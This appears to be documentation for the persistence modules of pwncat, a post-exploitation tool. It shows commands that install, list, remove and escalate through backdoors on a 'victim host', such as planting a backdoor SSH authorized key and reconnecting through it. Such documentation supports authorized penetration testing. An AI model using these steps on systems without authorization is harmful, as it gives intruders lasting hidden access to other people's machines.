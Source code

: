 Persistence
===========

Persistence modules are implemented as sub-classes of the standard ``pwncat`` modules, and are placed
under the ``persist`` package. Persistence methods provide an abstract way to install and utilize various
persistence methods on the victim host.

An installed persistence method is tracked in the database, and can be utilized for escalation or
reconnecting to a disconnected victim depending on the persistence module itself.

Listing Installed Modules
-------------------------

The ``persist.gather`` module is used to gather the installed modules on the victim host. This module
is also used to remove persistence modules in bulk. To simply list all installed modules:

.. code-block:: bash

   (local) pwncat$ run persist.gather

You can also specify any arguments available to persistence modules in the call to ``run`` in order
to filter the results:

.. code-block:: bash

   (local) pwncat$ run persist.gather user=bob

Installing Persistence
----------------------

Persistence modules are installed by running the relevant module. For example, to install persistence
as the user ``bob`` with the ``persist.authorized_key`` module, you can do the following:

.. code-block:: bash

   (local) pwncat$ run persist.authorized_key user=bob backdoor_key=./backdoor_id_rsa

Removing Persistence
--------------------

To remove a persistence module, you simply pass the ``remove`` argument to the module. It's worth noting
that the module arguments must be identical to the installed module in order to successfully remove the
module. To simplify this, you can use the ``persist.gather`` module to locate and remove the module.

.. code-block:: bash

   # Remove the module by explicitly specifying all parameters
   (local) pwncat$ run persist.authorized_key remove user=bob backdoor_key=./backdoor_id_rsa
   # Remove the module by locating it with persist.gather and removing it
   (local) pwncat$ run persist.gather remove user=bob

Escalating Using Persistence
----------------------------

Escalation with installed persistence can be done by passing the ``escalate`` argument to the
persistence module. Alternatively, it is recommended to simply utilize the ``escalate.auto``
module which will automatically select appropriate persistence modules if available.

.. code-block:: bash

   # Escalate to bob via installed persistence
   (local) pwncat$ run persist.authorized_key escalate user=bob backdoor_key=./backdoor_id_rsa
   (local) pwncat$ run persist.gather escalate user=bob
   # Recommended method
   (local) pwncat$ run escalate.auto user=bob

Reconnecting to a Victim via Persistence
----------------------------------------

Remote persistence modules can be used to reconnect to a victim host. This is done with the ``connect``
command (or via the pwncat command line parameters). The ``reconnect`` protocol will achieve this:

.. code-block:: bash

   # Reconnect as the specified user.
   # Automatically select either an installed persistence method or prompt for ssh password
   pwncat user@192.168.1.1
   # Reconnect protocol explicitly
   pwncat reconnect://user@192.168.1.1
   # Reconnect with a specific module
   pwncat reconnect://user:persist.authorized_key@192.168.1.1
